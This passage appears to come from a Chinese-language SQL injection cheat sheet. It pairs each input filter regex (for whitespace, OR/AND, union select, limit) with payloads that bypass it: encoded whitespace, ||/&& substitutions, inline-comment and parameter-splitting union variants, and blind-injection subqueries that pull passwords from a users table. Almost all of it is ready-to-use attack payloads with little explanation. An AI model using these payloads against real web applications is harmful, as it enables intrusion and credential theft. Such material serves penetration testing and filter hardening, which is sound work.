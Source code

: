 绕过语句：`'-'`

```
select data from users where name=''-''
select data from users where name=0-0
select data from users where 0=0

```

0x02 关键字过滤
==========

* * *

空格

过滤代码`/\s/`

```
%20, %09, %0a, %0b, %0c, %0d, %a0

```

关键字`OR，AND`

过滤代码`/\sor\s/i,/\sand\s/i`

```
'||1='1     #or
'='
'&&1='1     #and

```

关键字`union select`

过滤代码`/union\s+select/i`

```
'and(true)like(false)union(select(pass)from(users))#
'union [all|distinct] select pass from users#
'union%a0select pass from users#
'union/*!select*/pass from users#
/vuln.php?id=1 union/*&sort=*/select pass from users-- -

```

如果单独过滤union,使用盲注来获取数据

```
'and(select pass from users limit 1)='secret

```

通过子查询获取单值来进行比较

关键字`limit`

过滤代码`/limit/i`

```
'and(select pass from users where id=1)='a
'and(select pass from users group by id having id=1)='a
'and length((select pass from users having substr(pass,1,1)='a'))

```
